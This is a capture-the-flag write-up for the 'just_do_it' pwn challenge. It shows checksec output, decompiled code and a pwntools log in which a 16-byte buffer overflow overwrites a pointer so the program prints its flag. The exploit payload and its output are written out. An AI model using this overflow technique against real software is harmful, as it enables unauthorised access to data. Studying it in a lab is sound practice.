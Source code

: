 # Soln.md

```
pwndbg> checksec
File:     /home/pwent/code/personal/CTF/Nightmare/pwn/just_do_it/just_do_it
Arch:     i386
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```

Looking at the code,

```
undefined4 main(void)
{
  char *fgets_res;
  ...
  char user_input [16];
  FILE *flag_fd;
  char *message;
  ...

  flag_fd = fopen("flag.txt","r");
  ...

  fgets_res = fgets(flag,0x30,flag_fd);
  ...

  fgets_res = fgets(user_input,32,stdin);
  ...

  puts(message);
}
```

Of note, 32 bytes are read into `user_input[16]`, allowing us to overwrite `message` with the address
of `flag`. Since PIE is disabled, the address will remain static.

```
0804a080 B flag
```

```sh
❯ python soln.py
[+] Starting local process './just_do_it' argv=[b'./just_do_it'] : pid 852164
[DEBUG] Received 0x49 bytes:
    b'Welcome my secret service. Do you know the password?\n'
    b'Input the password.\n'
[DEBUG] Sent 0x19 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  42 42 42 42  80 a0 04 08  0a                        │BBBB│····│·│
    00000019
[+] Receiving all data: Done (11B)
[*] Process './just_do_it' stopped with exit code 0 (pid 852164)
[DEBUG] Received 0xb bytes:
    b'flag{XXX}\n'
    b'\n'
```
